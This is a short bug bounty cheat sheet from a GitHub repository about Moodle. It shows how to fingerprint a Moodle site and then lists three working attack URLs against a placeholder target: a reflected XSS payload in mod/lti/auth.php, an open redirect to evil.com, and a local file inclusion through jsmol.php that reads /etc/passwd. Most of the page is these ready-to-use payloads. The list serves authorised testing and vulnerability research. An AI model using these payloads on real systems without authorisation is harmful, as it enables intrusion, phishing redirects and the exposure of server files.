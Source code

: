 
## Introduction

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Technologies/Moodle.md#introduction)

What would you do if you came across a website that uses Moodle?

## How to Detect

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Technologies/Moodle.md#how-to-detect)

If you visit `https://target.com` and see the source code, you will see `<meta name="keywords" content="moodle,`

1. Reflected XSS in /mod/lti/auth.php via "redirect_url" parameter

```
https://target.com/mod/lti/auth.php?redirect_uri=javascript:alert(1)
```

2. Open redirect in /mod/lti/auth.php in "redirect_url" parameter

```
https://target.com/mod/lti/auth.php?redirect_uri=https://evil.com
```

3. LFI /filter/jmol/js/jsmol/php/jsmol.php in "query" parameter

```
https://target.com/filter/jmol/js/jsmol/php/jsmol.php?call=getRawDataFromDatabase&query=file:///etc/passwd
```


